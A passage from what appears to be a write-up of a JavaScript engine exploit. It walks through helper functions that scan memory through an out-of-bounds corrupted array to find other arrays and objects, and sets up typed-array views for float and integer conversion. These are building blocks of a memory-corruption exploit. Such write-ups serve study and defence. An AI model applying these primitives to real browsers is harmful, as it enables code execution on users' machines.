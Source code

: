 #### Note: Ignore the upper 32-bits of all the outputs I have shown. They change in every execution but the lower 32-bits offsets are always the same. 

```js
function searchDblArrIndex(startAddr, corruptedArr, marker1, marker2, limit) {
  var startIndex = getOffset(startAddr);
  var end = getOffset(limit);
  var addr = startAddr;
  for (let idx = startIndex; idx < end; idx += 1) {
    if (corruptedArr[idx] == 0x40504000/2 && corruptedArr[idx + 2] == 0x40508000/2) {
      return idx - 3;
    }
    addr += 4;
  }
}
```

The function gets offsets from the `startAddr` and traverses the `corruptedArr` to find the address of other arrays present in the memory. The `0x40504000` is the 64-bit floating point representation for `0x41` and `0x40508000` is for `0x42`. `corruptedArr` has OOB read access with a very large length. As the arrays are stored contiguously, so they can be accessed by simply walking the memory.

```js
function searchObjArrIndex(startAddr, corruptedArr, limit) {
  var startIndex = getOffset(startAddr);
  var end = getOffset(limit);
  for (let idx = startIndex; idx < end; idx += 1) {
    if (corruptedArr[idx] == 0x414141 && corruptedArr[idx + 1] == 0x424242) {
      return idx - 2;
    }
  }
}
```

The above function is almost the same as `searchDblArrIndex` and helps us find the address of OobObjArr.

```js
var view = new ArrayBuffer(24);
var dblArr = new Float64Array(view);
var intView = new Uint32Array(view);
var bigIntView = new BigInt64Array(view);
```

We make the following arrays. `dblArr`, `intView` and `bigIntView` all are given an `ArrayBuffer`. These are made to access data on the memory in different types like in 32-bit or 64-bit.

```js
function ftoi32(f) {
    dblArr[0] = f;
    return [intView[0], intView[1]];
}
```

Places the value on `dblArr[0]`. This adds 8-bytes to the 24-bytes long `ArrayBuffer`. The `return` statement gives lower 32-bits in `intView[0]` and upper 32-bits in `intView[1]`. As all 3 arrays are pointing to the same memory so if we store something in `dblArr` it can be accessed by `intView` and `bigIntView`.
